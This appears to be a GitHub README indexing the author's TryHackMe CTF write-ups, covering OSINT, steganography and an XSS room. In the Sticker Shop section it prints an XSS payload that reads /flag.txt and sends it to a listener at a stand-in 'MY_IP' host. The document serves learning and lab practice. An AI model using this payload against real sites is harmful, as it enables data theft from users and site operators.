 # 🧠 CyberSec Writeups & Solutions by Achref Rahali

Welcome to my personal repository of cybersecurity challenges, cracking problems, and hacking labs that I’ve tackled and documented. This repo serves as a logbook of my progress through CTFs, TryHackMe rooms, and real-world scenarios to sharpen my offensive security skills.

---

## 🧠 Solved Challenges
### 📌 [CyberLens – TryHackMe](https://medium.com/@rahaliashraf732/cyberlens-tryhackme-writeup-d184903e497e)
A walkthrough of the CyberLens room on TryHackMe where I tackled:
- OSINT
- Steganography
- Network forensics
- Basic RE

> 📝 [Read full write-up on Medium](https://medium.com/@rahaliashraf732/cyberlens-tryhackme-writeup-d184903e497e)
[![Read on Medium](https://img.shields.io/badge/Read_on-Medium-black?logo=medium)](https://medium.com/@rahaliashraf732/cyberlens-tryhackme-writeup-d184903e497e)

📌 **Topics covered:**
- OSINT & Recon
- Steganography
- Network Forensics
- Reverse Engineering

📝 **Tools used:**
- Wireshark
- strings
- stegseek
- exiftool
- and more...

  🛡️ **Lessons Learned:**
- [x] Always enumerate all provided media and files — hidden messages are common in CTFs.
- [x] Metadata and file formats can reveal more than expected (e.g., EXIF, hidden ZIPs).
- [x] Don't skip packet analysis — the answer is often buried in plain sight within the pcap.
- [x] Automation tools like `stegseek` or `binwalk` can save massive time when exploring binary data.

---

### 📌 [The Sticker Shop – TryHackMe](https://medium.com/@rahaliashraf732/the-sticker-shop-046f5b9bec95)
An XSS-based exploitation of a vulnerable feedback form to exfiltrate a protected flag from the webserver.

> 📝 [Read full write-up on Medium](https://medium.com/@rahaliashraf732/the-sticker-shop-046f5b9bec95)  
[![Read on Medium](https://img.shields.io/badge/Read_on-Medium-black?logo=medium)](https://medium.com/@rahaliashraf732/the-sticker-shop-046f5b9bec95)

📌 **Topics covered:**
- XSS (Cross-Site Scripting)
- Access Control Bypass
- Same-Origin Policy (SOP) Exploitation
- JavaScript Payload Crafting

🛠️ **Exploitation Steps:**
1. Recon with `nmap` and `gobuster` to discover exposed HTTP service and directories.
2. Identified XSS via the feedback form using a `<script>alert(1)</script>` test.
3. Injected payload to fetch `/flag.txt` and leak it to a remote listener.
4. Captured the flag using a Python HTTP server.
5. Decoded exfiltrated content: `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`

🧪 **Payload Used:**
```html
<script>
  fetch('/flag.txt')
    .then(r => r.text())
    .then(data => {
      window.location = 'http://MY_IP:8081/receive?flag=' + encodeURIComponent(data);
    });
</script>

🛡️ **Lessons Learned:**

- [x] Input sanitization is critical.
- [x] Same-Origin Policy can be abused if proper authentication isn’t enforced.
- [x] Feedback forms are common entry points for reflected XSS.

---

## 🔜 Coming Soon

I’ll be adding more CTF rooms, reverse engineering challenges, and crackmes, such as:
- VulnHub boxes
- Hack The Box writeups
- Custom malware analysis tasks
- Password cracking scenarios

---

## 📚 Why This Repo?

This repo helps me:
- Track my learning in infosec
- Improve my documentation skills
- Share my knowledge with others starting out in ethical hacking

---

## ⚠️ Legal Notice

> This repository is strictly for educational purposes. All challenges and techniques are practiced on **legally authorized platforms** like TryHackMe, HTB, or offline VMs. Do not attempt to use these techniques on unauthorized systems.

---


